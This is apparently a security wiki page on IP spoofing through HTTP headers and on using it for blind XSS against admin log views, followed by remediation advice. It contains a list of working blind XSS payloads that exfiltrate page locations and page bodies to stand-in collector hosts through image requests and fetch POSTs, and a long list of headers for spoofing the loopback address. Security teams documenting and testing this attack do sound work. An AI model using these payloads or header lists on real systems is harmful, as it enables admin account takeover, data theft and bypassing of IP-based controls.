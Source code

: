 ```yaml
---
layout: col-sidebar
title: IP Spoofing via HTTP Headers
author: Ahmadreza Parsizadeh
contributors: AREX
tags: [attack, IP Spoofing, XSS, Admin Account Take Over]
---
```


{% include writers.html %}

## Description

In the realm of web security, understanding the nuances of IP spoofing becomes paramount as malicious actors exploit vulnerabilities in HTTP headers to deceive systems. By examining the risks associated with trusting headers like X-Forwarded-For, The potential consequences will be unveiled and offer insights into securing applications against these threats.

## Significance of Client IP Addresses

Client IP addresses often serve as crucial identifiers in web applications, influencing access controls and rate limits. Understanding their significance is paramount for evaluating potential vulnerabilities and implementing robust security measures.

### Examples of Access Controls and Rate Limits:

1. **Access Controls Based on IP Addresses:**
   - *Scenario:* An application restricts access to sensitive administrative functionality only to clients connecting from the local IP address of the server.
   - *Implementation:* The application checks the source IP address of incoming requests and grants access only if the address matches the server's local IP.
2. **Rate Limits Based on IP Addresses:**
   - *Scenario:* A login system allows a limited number of failed login attempts from each unique IP address within a specified timeframe.
   - *Implementation:* The application tracks failed login attempts along with the corresponding IP addresses. If the allowed limit is exceeded, further login attempts from that IP are temporarily restricted.

### Web Application Impact

#### Impact on User Activity Logs

IP spoofing can significantly impact web applications that log user activity, leading to potential inaccuracies in historical data and log poisoning. Malicious actors exploiting IP spoofing may manipulate logs, making it challenging to trace legitimate and malicious actions accurately.

#### Admin Account Takeover using Blind XSS

1. **Scenario:**
    - Malicious actors utilize IP spoofing to inject payloads via HTTP headers, leading to generating inaccurate logs or inject malicious payloads via HTTP headers for achieving Blind XSS to take over the admin's account.

2. **Impact:**
    - Blind-stored XSS attacks allow adversaries to inject malicious scripts into the application's database. When legitimate users access compromised pages, these scripts execute, potentially leading to unauthorized access, data theft, or other malicious activities. For numerous web applications based on their functionality, the admin needs to access the history of login activities and users' IPs will be recorded. The attacker injects some Blind XSS payloads and if the admin portal is vulnerable to XSS, the attacker can hijack the admin's cookies and take over the admin's account.

### Payloads for Blind XSS

```HTML
'"><img src="https://example.burpcollaborator.net/image">

</script><svg/onload='+/"/+/onmouseover=1/+(s=document.createElement(/script/.source), s.stack=Error().stack, s.src=(/,/+/yourcollaboratordomain/).slice(2), document.documentElement.appendChild(s))//'>

[<iframe/srcdoc=”<script/src=//narayananm.xss.ht></script>”>]

'"><img src="https://example.burpcollaborator.net/image-only" onerror='this.src="https://example.burpcollaborator.net/image-xss?"+btoa(document.location)'>

'"><img src=x onerror='this.src="https://example.burpcollaborator.net/image-xss?"+btoa(document.location)'>

'"><img src=x onerror='this.src="https://"+btoa(document.location)+".example.burpcollaborator.net/image-dns?"'>

'"><img src=x onerror='this.src="https://example.burpcollaborator.net/image-xss?"+btoa(document.location)'>

'"><img src=x onerror='fetch("https://example.burpcollaborator.net/image-xss-post",{method:"POST",body:btoa(document.body.innerHTML),mode:"no-cors"})'>

'"><iframe src='javascript:window.location="https://example.burpcollaborator.net/iframe-src?"+btoa(parent.document.location)'></iframe>

'"><iframe srcdoc='<script>window.location="https://example.burpcollaborator.net/iframe-srcdoc?"+btoa(parent.document.location)</script>'></iframe>

'"><iframe srcdoc='<script>fetch("https://example.burpcollaborator.net/iframe-srcdoc-post",{method:"POST",body:btoa(parent.document.body.innerHTML),mode:"no-cors"})</script>'></iframe>

'"><object data='javascript:window.location="https://example.burpcollaborator.net/iframe-src?"+btoa(parent.document.location)'></object>

<input onfocus='fetch("https://example.burpcollaborator.net/imput-post",{method:"POST",body:btoa(document.body.innerHTML),mode:"no-cors"})' autofocus>

'"><script src=https://example.burpcollaborator.net/script-tag></script>

'"><script type="text/javascript" src="https://example.burpcollaborator.net/script-tag-type"></script>

'"><script type="module" src="https://example.burpcollaborator.net/script-tag-module"></script>

'"><script nomodule src="https://example.burpcollaborator.net/script-tag-nomodule"></script>

javascript:window.location="https://example.burpcollaborator.net/js-scheme?"+btoa(document.location)

javascript:fetch("https://example.burpcollaborator.net/js-scheme-fetch?"+btoa(document.location))
```

### Headers for IP Spoofing

```HTTP
CACHE_INFO: 127.0.0.1
CF_CONNECTING_IP: 127.0.0.1
CF-Connecting-IP: 127.0.0.1
CLIENT_IP: 127.0.0.1
Client-IP: 127.0.0.1
COMING_FROM: 127.0.0.1
CONNECT_VIA_IP: 127.0.0.1
FORWARD_FOR: 127.0.0.1
FORWARD-FOR: 127.0.0.1
FORWARDED_FOR_IP: 127.0.0.1
FORWARDED_FOR: 127.0.0.1
FORWARDED-FOR-IP: 127.0.0.1
FORWARDED-FOR: 127.0.0.1
FORWARDED: 127.0.0.1
HTTP-CLIENT-IP: 127.0.0.1
HTTP-FORWARDED-FOR-IP: 127.0.0.1
HTTP-PC-REMOTE-ADDR: 127.0.0.1
HTTP-PROXY-CONNECTION: 127.0.0.1
HTTP-VIA: 127.0.0.1
HTTP-X-FORWARDED-FOR-IP: 127.0.0.1
HTTP-X-IMFORWARDS: 127.0.0.1
HTTP-XROXY-CONNECTION: 127.0.0.1
PC_REMOTE_ADDR: 127.0.0.1
PRAGMA: 127.0.0.1
PROXY_AUTHORIZATION: 127.0.0.1
PROXY_CONNECTION: 127.0.0.1
Proxy-Client-IP: 127.0.0.1
PROXY: 127.0.0.1
REMOTE_ADDR: 127.0.0.1
Source-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Via: 127.0.0.1
WL-Proxy-Client-IP: 127.0.0.1
X_CLUSTER_CLIENT_IP: 127.0.0.1
X_COMING_FROM: 127.0.0.1
X_DELEGATE_REMOTE_HOST: 127.0.0.1
X_FORWARDED_FOR_IP: 127.0.0.1
X_FORWARDED: 127.0.0.1
X_IMFORWARDS: 127.0.0.1
X_LOCKING: 127.0.0.1
X_LOOKING: 127.0.0.1
X_REAL_IP: 127.0.0.1
X-Backend-Host: 127.0.0.1
X-BlueCoat-Via: 127.0.0.1
X-Cache-Info: 127.0.0.1
X-Forward-For: 127.0.0.1
X-Forwarded-By: 127.0.0.1
X-Forwarded-For-Original: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded-For: 127.0.0.1, 127.0.0.1, 127.0.0.1
X-Forwarded-Server: 127.0.0.1
X-Forwarded-Host: 127.0.0.1
X-From-IP: 127.0.0.1
X-From: 127.0.0.1
X-Gateway-Host: 127.0.0.1
X-Host: 127.0.0.1
X-Ip: 127.0.0.1
X-Original-Host: 127.0.0.1
X-Original-IP: 127.0.0.1
X-Original-Remote-Addr: 127.0.0.1
X-Original-Url: 127.0.0.1
X-Originally-Forwarded-For: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-ProxyMesh-IP: 127.0.0.1
X-ProxyUser-IP: 127.0.0.1
X-Real-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-True-Client-IP: 127.0.0.1
XONNECTION: 127.0.0.1
XPROXY: 127.0.0.1
XROXY_CONNECTION: 127.0.0.1
Z-Forwarded-For: 127.0.0.1
ZCACHE_CONTROL: 127.0.0.1
```

## Remediation

1. **Validate and Sanitize Input:**
    - Implement strict input validation to ensure that client-provided data, including headers, is legitimate.
    - Sanitize input to remove potentially harmful content.

2. **Use Secure Protocols:**
    - Enforce the use of secure communication protocols (HTTPS) to protect against man-in-the-middle attacks.

3. **Implement Rate Limiting and Access Controls:**
    - Diversify access controls and rate limiting mechanisms beyond relying solely on client IP addresses.

4. **Logging Best Practices:**
    - Employ logging best practices to detect and respond to potential IP spoofing incidents.
    - Regularly review and analyze logs to identify suspicious activities.

5. **Educate Development Teams:**
    - Provide training to development teams on secure coding practices, emphasizing the risks associated with trusting client-provided data.

By adopting these remediation measures, organizations can bolster their defenses against IP spoofing attacks facilitated through HTTP headers, fortifying their web applications against potential threats.

